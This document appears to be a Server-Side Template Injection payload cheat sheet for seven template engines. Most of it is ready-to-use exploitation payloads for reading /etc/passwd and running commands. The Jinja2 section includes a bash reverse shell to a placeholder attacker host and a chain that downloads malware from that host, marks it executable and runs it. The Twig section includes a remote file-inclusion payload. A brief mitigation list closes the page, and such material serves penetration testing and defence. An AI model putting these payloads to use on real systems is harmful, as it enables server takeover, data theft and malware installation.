 # Server-Side Template Injection (SSTI) Payloads Cheat Sheet

## **What is SSTI?**

Server-Side Template Injection (SSTI) occurs when user input is embedded into server-side templates without proper validation or sanitization. This allows an attacker to inject malicious template code and potentially execute arbitrary code on the server. It is a critical vulnerability that can lead to severe consequences, such as sensitive data exposure, server compromise, and even lateral movement within a network.

---

## **How Does SSTI Work?**

1. A web application accepts user input (e.g., forms, URL parameters) and processes it within a template engine.
2. If the input is embedded into templates without sanitization, an attacker can inject template expressions or arbitrary code.
3. These expressions get executed by the template engine, potentially granting the attacker access to sensitive data, files, or system commands.

### **Common Causes of SSTI**
- Directly embedding user input into templates.
- Misconfigured or overly permissive template engines.
- Lack of proper input validation or escaping mechanisms.

---

## **Template Engines and Payloads**

Below is a detailed breakdown of SSTI payloads for popular template engines:

### **Jinja2 (Python)**
#### Detecting SSTI
```jinja
{{ 7*7 }}
```
If the output returns `49`, SSTI is likely exploitable.

#### Exploitation Techniques
- **Read Arbitrary Files**
  ```jinja
  {{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
  ```
- **Command Execution**
  ```jinja
  {{ ''.__class__.__mro__[1].__subclasses__()[59]('id', shell=True, stdout=-1).communicate() }}
  ```
- **Spawn Reverse Shell**
  ```jinja
  {{ ''.__class__.__mro__[1].__subclasses__()[59]("bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'", shell=True, stdout=-1).communicate() }}
  ```

### **Freemarker (Java)**
#### Detecting SSTI
```java
${7*7}
```
#### Exploitation Techniques
- **Execute Commands**
  ```java
  ${"freemarker.template.utility.Execute"?new()("id")}
  ```
- **Read Files**
  ```java
  ${"freemarker.template.utility.ObjectConstructor"?new()("java.io.File").new("/etc/passwd").read()}
  ```

### **Thymeleaf (Java)**
#### Detecting SSTI
```html
th:text="${7*7}"
```
#### Exploitation Techniques
- **Execute Commands**
  ```html
  th:text="${T(java.lang.Runtime).getRuntime().exec('id')}"
  ```
- **Access Environment Variables**
  ```html
  th:text="${T(System).getenv()}"
  ```

### **Velocity (Java)**
#### Detecting SSTI
```java
#set($x = 7 * 7)$x
```
#### Exploitation Techniques
- **Execute Commands**
  ```java
  #set($cmd = 'id')
  #set($process = $runtime.exec($cmd))
  $process.waitFor()
  $process.exitValue()
  ```

### **Smarty (PHP)**
#### Detecting SSTI
```php
{$smarty.version}
```
#### Exploitation Techniques
- **Command Execution**
  ```php
  {system('id')}
  ```
- **Read Sensitive Files**
  ```php
  {file_get_contents('/etc/passwd')}
  ```

### **Twig (PHP)**
#### Detecting SSTI
```php
{{ 7*7 }}
```
#### Exploitation Techniques
- **Read Files**
  ```php
  {{ include('/etc/passwd') }}
  ```
- **Execute Commands**
  ```php
  {{ "id"|system }}
  ```

### **Handlebars (JavaScript)**
#### Detecting SSTI
```javascript
{{7*7}}
```
#### Exploitation Techniques
- **Access Objects**
  ```javascript
  {{#with "constructor" as |c|}}{{c.prototype}}{{/with}}
  ```
- **Execute Commands**
  ```javascript
  {{#with "constructor" as |c|}}{{c.constructor("return process")().mainModule.require("child_process").execSync("id").toString()}}{{/with}}
  ```

---

## **Advanced Payloads for SSTI**

- **Chained Exploits in Jinja2**
  ```jinja
  {{ ''.__class__.__mro__[1].__subclasses__()[59]("wget http://<attacker_ip>/malware -O /tmp/malware", shell=True).communicate() }}
  {{ ''.__class__.__mro__[1].__subclasses__()[59]("chmod +x /tmp/malware; /tmp/malware", shell=True).communicate() }}
  ```

- **Extract Environment Variables**
  ```jinja
  {{ config.items() }}
  ```

- **Remote File Inclusion in Twig**
  ```php
  {{ include("http://<attacker_ip>/payload.twig") }}
  ```

---

## **Automation Tools for SSTI Testing**

- **Tplmap**
  Automates the detection and exploitation of SSTI vulnerabilities across multiple engines.
  ```bash
  tplmap -u http://target.com/page --data "input={{7*7}}"
  ```

- **Burp Suite Plugins**
  Use plugins like "SSTI Hunter" to scan for template injection issues in web applications.

---

## **Mitigation Strategies**

1. **Input Validation and Sanitization**
   - Use whitelisting for user input.
   - Reject inputs with special characters used in template engines.
2. **Secure Template Engine Configuration**
   - Disable dangerous features like object access or code execution.
3. **Escaping User Input**
   - Escape or encode user-supplied data properly before rendering it in templates.
4. **Code Audits**
   - Regularly review code for direct embedding of user inputs in templates.
5. **Penetration Testing**
   - Use automated and manual testing techniques to uncover SSTI vulnerabilities.

---
